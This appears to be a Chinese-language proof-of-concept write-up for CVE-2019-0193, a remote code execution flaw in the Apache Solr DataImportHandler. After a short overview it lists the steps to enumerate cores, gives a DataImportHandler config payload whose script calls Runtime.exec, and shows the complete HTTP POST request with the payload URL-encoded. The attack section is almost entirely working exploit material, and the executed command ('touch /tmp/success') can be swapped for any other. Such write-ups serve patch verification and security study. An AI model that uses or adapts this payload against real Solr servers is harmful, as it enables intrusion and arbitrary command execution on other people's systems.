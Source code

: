 # CVE-2019-0193

## 概述

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 

获取 core 信息

	http://ip:8983/solr/admin/cores


	{
	  "responseHeader":{
	    "status":0,
	    "QTime":0},
	  "initFailures":{},
	  "status":{
	    "test":{
	      "name":"test",
	      "instanceDir":"/var/solr/data/test",
	      "dataDir":"/var/solr/data/test/data/",
	      "config":"solrconfig.xml",
	      "schema":"managed-schema",
	      "startTime":"2020-11-02T05:36:14.741Z",
	      "uptime":991993,
	      "index":{
	        "numDocs":0,
	        "maxDoc":0,
	        "deletedDocs":0,
	        "indexHeapUsageBytes":0,
	        "version":2,
	        "segmentCount":0,
	        "current":true,
	        "hasDeletions":false,
	        "directory":"org.apache.lucene.store.NRTCachingDirectory:NRTCachingDirectory(MMapDirectory@/var/solr/data/test/data/index lockFactory=org.apache.lucene.store.NativeFSLockFactory@2ffa7f89; maxCacheMB=48.0 maxMergeSizeMB=4.0)",
	        "segmentsFile":"segments_1",
	        "segmentsFileSizeInBytes":69,
	        "userData":{},
	        "sizeInBytes":69,
	        "size":"69 bytes"}}}}


根据core信息中的name构造payload:

poc:


	<dataConfig>
	  <dataSource type="URLDataSource"/>
	  <script><![CDATA[
	          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
	          }
	  ]]></script>
	  <document>
	    <entity name="stackoverflow"
	            url="https://stackoverflow.com/feeds/tag/solr"
	            processor="XPathEntityProcessor"
	            forEach="/feed"
	            transformer="script:poc" />
	  </document>
	</dataConfig>


参数 debug=true

发送请求：

	POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
	Host: localhost:8983
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
	Accept: application/json, text/plain, */*
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Accept-Encoding: gzip, deflate
	Content-type: application/x-www-form-urlencoded
	X-Requested-With: XMLHttpRequest
	Content-Length: 679
	Connection: close
	Referer: http://localhost:8983/solr/
	Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr
	
	command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&name=dataimport&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E


也可以不加url 编码。
